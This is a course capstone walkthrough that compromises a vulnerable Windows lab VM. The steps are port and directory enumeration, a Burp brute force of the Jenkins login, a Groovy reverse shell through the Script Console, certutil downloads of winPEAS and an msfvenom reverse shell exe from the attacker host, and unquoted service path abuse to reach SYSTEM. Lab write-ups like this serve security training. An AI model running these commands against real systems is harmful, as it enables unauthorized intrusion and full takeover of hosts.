










# Course Capstone - Butler

This capstone challenge aims to exploit a course-provided Windows VM.

We will be attacking this vulnerable victim VM from a separate Kali Linux VM (mentioned later as 'attacker VM').

## VM Setup
The VM must first be imported into your hypervisor. I used VirtualBox. <br>
**Be sure that your attacker VM and victim VM have the same network adapter so they can reach one another.**

Start the victim VM, log in using provided credentials in **accounts.txt** and grab its IP address using the command **ipconfig**.



Ensure your attacker VM can reach this machine by **pinging** it.

## Initial Enumeration
Run an Nmap scan against the victim VM: <br>
`nmap -T4 -p- -A [VICTIM VM IP]`

```
Starting Nmap 7.99 ( https://nmap.org ) at 2026-07-10 18:54 -0400
Nmap scan report for 10.0.2.80
Host is up (0.00021s latency).
Not shown: 65523 closed tcp ports (reset)
PORT      STATE SERVICE       VERSION
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
5040/tcp  open  unknown
7680/tcp  open  pando-pub?
8080/tcp  open  http          Jetty 9.4.41.v20210516
| http-robots.txt: 1 disallowed entry 
|_/
|_http-title: Site doesn't have a title (text/html;charset=utf-8).
|_http-server-header: Jetty(9.4.41.v20210516)
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
MAC Address: 08:00:27:25:B0:DB (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Microsoft Windows 10
OS CPE: cpe:/o:microsoft:windows_10
OS details: Microsoft Windows 10 1709 - 22H2
Network Distance: 1 hop
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2026-07-11T02:03:39
|_  start_date: N/A
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required
|_clock-skew: 2h59m59s
|_nbstat: NetBIOS name: BUTLER, NetBIOS user: <unknown>, NetBIOS MAC: 08:00:27:25:b0:db (Oracle VirtualBox virtual NIC)

TRACEROUTE
HOP RTT     ADDRESS
1   0.21 ms 10.0.2.80

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 592.67 seconds
```

The scan doesn't provide us much information other than the web server running on port 8080. If we navigate to the web page `http://[VICTIM IP]:8080/` we see a Jenkins login page:



I then use [dirb](https://www.kali.org/tools/dirb/) to discover any sub-directories on the site:
```
dirb http://[VICTIM IP]:8080 

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Fri Jul 10 20:36:44 2026
URL_BASE: http://10.0.2.80:8080/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://10.0.2.80:8080/ ----
(!) WARNING: All responses for this directory seem to be CODE = 403.                                                                              
    (Use mode '-w' if you want to scan it anyway)
```

The 403 status code responses tell us that we are forbidden from accessing resources on the site.

Other attempts at enumeration did not provide useful information on exploiting the machine.

## Gaining a Foothold

Our main option at this point is to bypass the Jenkins authentication page. I used [Burp](https://portswigger.net/burp) alongside a [FoxyProxy](https://getfoxyproxy.org/) web proxy for this attack. I have the web browser extension installed and configured on `127.0.0.1:8080`.

Use Burp to intercept an authentication attempt from the Jenkins login page and we'll send that request to Burp's **Intruder**.



Once in the Intruder, we will do the following:
* change the attack type to **cluster bomb**
* add **payload positions** for the username and password fields
* **create wordlists** for the username and password 

Using a cluster bomb attack takes each entry in the wordlist of possible usernames and attempts each entry in the password wordlist. That way every username:password combination between the two lists is attempted.

The wordlists I used for the username and password fields are:
```
Username wordlist:           Password wordlist:
User                         Password
Admin                        password
admin                        Password1
Administrator                password1
administrator                12345
Jenkins                      123456789
jenkins                      rosebud
                             Jenkins
                             jenkins
```

Click the **Start attack** button to launch the attack, then examine the output. The **Status code** and **Length** fields can highlight requests to take a closer look at.

For the username:password combo `jenkins:jenkins` we see a change in **Response received** and **Length**. Taking a closer look, we see a new **Set-Cookie** header and the **Location** header does not include the string `loginError`, so maybe we have discovered the credentials!

Going back to the login page, we can use the credentials **jenkins:jenkins** to attempt authentication. (And it works!)



Now we need to find a way to execute code via Jenkins. I used the **Script Console** found under **Manage Jenkins > Script Console** to execute a reverse shell pointing back to our attacker VM.

Since the Script Console works with Groovy, we need to find a working Groovy shell. I modified the one found [here](https://gist.github.com/frohoff/fed1ffaab9b9beeb1c76) to include my attacker's IP and listening port.



Before running our reverse shell, start a netcat listener on the attacker machine: `nc -nlvp [LISTENING PORT]`

Run the reverse shell script in Jenkins by clicking the **Run** button, which should spawn a shell.



Now we have user-level access on this machine!

## Privilege Escalation

We can use [winPEAS](https://github.com/peass-ng/PEASS-ng/tree/master/winPEAS) to enumerate the victim VM for possible privilege escalation paths, but we must first get the script on the victim machine.

Download the latest release of **winPEASx64** from the [release page](https://github.com/peass-ng/PEASS-ng/releases) onto your attacker VM. Then spin up a web server to serve this page: `python -m http.server 80`

On the victim VM, move to a directory where our user **butler** has **read/write** permissions (most probably c:\Users\butler): `cd c:\Users\butler`.

Now we can download the script from our attacker VM using **certutil.exe**:
`certutil.exe -urlcache -f http://[ATTACKER VM IP]/winPEASx64.exe winpeas.exe`

Here, we're forcing certutil (-urlcache -f) to fetch a file from our attacker IP named winPEASx64.exe and saving it to the victim VM as **winpeas.exe**.

We can confirm the download was successful by checking the directory contents using `dir`:



Now we can execute the script by simply entering **winpeas.exe** and start to examine the output. There is one interesting finding under the section **Services Information, Interesting Services -non Microsoft-**:



We see there is a service named **WiseBootAssistant** that executes a file whose path includes spaces but is not enclosed in quotes. The vulnerability is called an 'Unquoted Service Path'. Where Windows interprets the space as an argument break, so the system can be tricked into executing binaries placed either in higher directories or having similar names as the intended executable (Wise.exe vs. Wise Care 365.exe).

If we create a new reverse shell file named **Wise.exe** and place it in the directory `C:\Program Files (x86)\Wise\`, it should execute **before** the `\Wise\Wise Care 365\BootTime.exe` file.

I created a malicious reverse shell using **msfvenom**:
`msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.0.2.11 LPORT=4545 -f exe -o Wise.exe`

This command creates a Windows x64 TCP reverse shell payload (windows/x64/shell_reverse_tcp) pointing to my attacker VM, saving the output as an executable file (-f exe -o) named Wise.exe.

As we did before, we can spin up a web server from the attacker VM to serve the reverse shell file: `python -m http.server 80` and use **certutil** to fetch it. However, we **first need to navigate to the c:\Program Files (x86)\Wise directory** on the victim VM before fetching the file: `certutil.exe -urlcache -f http://[ATTACKER VM IP]/Wise.exe Wise.exe`.

We cam confirm the download succeeded using the `dir` command:



Start a new netcat listener on the attacker VM before continuing to execute our new reverse shell: `nc -nlvp [LISTENING PORT]`

The last step to take before gaining privileged access to to stop and restart the **WiseBootAssistant** service on the victim VM. Do this using the commands `sc stop WiseBootAssistant` and `sc start WiseBootAssistant`.

Upon restarting the service, we should have spawned a privileged shell:



Now we have SYSTEM level access on this machine!
